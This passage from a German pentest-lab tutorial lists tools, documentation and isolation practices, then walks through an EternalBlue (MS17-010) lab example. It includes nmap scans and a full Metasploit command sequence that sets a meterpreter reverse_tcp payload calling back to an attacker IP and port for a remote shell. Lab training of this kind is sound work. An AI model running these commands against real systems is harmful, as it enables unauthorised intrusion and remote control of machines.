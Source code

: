 **4. Pentest-Tools:**

- **Metasploit Framework:** Ein umfassendes Framework für Penetrationstests.
- **Nmap:** Ein Portscanner für die Netzwerkaufklärung.
- **Wireshark:** Ein Netzwerkprotokollanalysator.
- **Burp Suite:** Ein Webanwendungstestwerkzeug.
- **John the Ripper/Hashcat:** Tools für das Knacken von Passwörtern.

**5. Dokumentation:**

- Führen Sie detaillierte Aufzeichnungen über Ihre Laborumgebung, einschließlich:
    - Netzwerktopologie.
    - Konfigurationen der virtuellen Maschinen.
    - Installierte Software.
    - Testverfahren.

**6. Sicherheitsmaßnahmen für die Laborumgebung:**

- **Isolation:** Stellen Sie sicher, dass Ihre Laborumgebung vollständig von Ihrem Produktionsnetzwerk isoliert ist.
- **Snapshots:** Verwenden Sie Snapshots von virtuellen Maschinen, um schnell zu einem früheren Zustand zurückzukehren.
- **Regelmäßige Updates:** Halten Sie Ihre Betriebssysteme und Pentest-Tools auf dem neuesten Stand.
- **Rechtliche Aspekte:** Stellen Sie sicher, dass Sie alle geltenden Gesetze und Vorschriften einhalten.

**7. Zusätzliche Empfehlungen:**

- Beginnen Sie mit einfachen Szenarien und steigern Sie allmählich die Komplexität.
- Nutzen Sie Online-Ressourcen und Dokumentationen, um Ihr Wissen zu erweitern.
- Beteiligen Sie sich an Capture-the-Flag (CTF)-Wettbewerben, um Ihre Fähigkeiten zu verbessern.


Beispiel 

**Szenario:**

- Zielsystem: Eine virtuelle Maschine mit einem veralteten Webserver, der anfällig für die „EternalBlue“-Schwachstelle (CVE-2017-0144/CVE-2017-0145) ist.
- Angreifer-System: Kali Linux.

**Schritt-für-Schritt-Vorgehensweise:**

1. **Netzwerkaufklärung (Reconnaissance):**
    - Verwendung von Nmap, um das Zielsystem zu scannen und offene Ports zu identifizieren:
        - `nmap -sV <Ziel-IP-Adresse>`
    - Dieser Scan zeigt, dass der SMB-Dienst (Port 445) auf dem Zielsystem aktiv ist, was auf eine potenzielle Anfälligkeit für EternalBlue hindeutet.
2. **Schwachstellenanalyse (Vulnerability Analysis):**
    - Verwendung von Nmap mit einem spezifischen Script, um die EternalBlue-Schwachstelle zu überprüfen:
        - `nmap -p 445 --script smb-vuln-ms17-010 <Ziel-IP-Adresse>`
    - Dieser Scan bestätigt, dass das Zielsystem anfällig für EternalBlue ist.
3. **Ausnutzung (Exploitation):**
    - Verwendung des Metasploit Frameworks, um den EternalBlue-Exploit auszuführen:
        - `msfconsole`
        - `use exploit/windows/smb/ms17_010_eternalblue`
        - `set RHOSTS <Ziel-IP-Adresse>`
        - `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
        - `set LHOST <Angreifer-IP-Adresse>`
        - `set LPORT 4444`
        - `exploit`
    - Metasploit nutzt nun den Exploit um eine Reverse TCP Verbindung zu öffnen.
    - Meterpreter ist ein Metasploit payload der eine interaktive shell zur fernsteuerung öffnet.
4. **Post-Exploitation:**
    - Nach erfolgreicher Ausnutzung erhalten wir eine Meterpreter-Shell auf dem Zielsystem.
    - Wir können nun verschiedene Post-Exploitation-Aktivitäten durchführen, wie z. B.
        - Informationen sammeln (z. B. `sysinfo`, `ipconfig`).
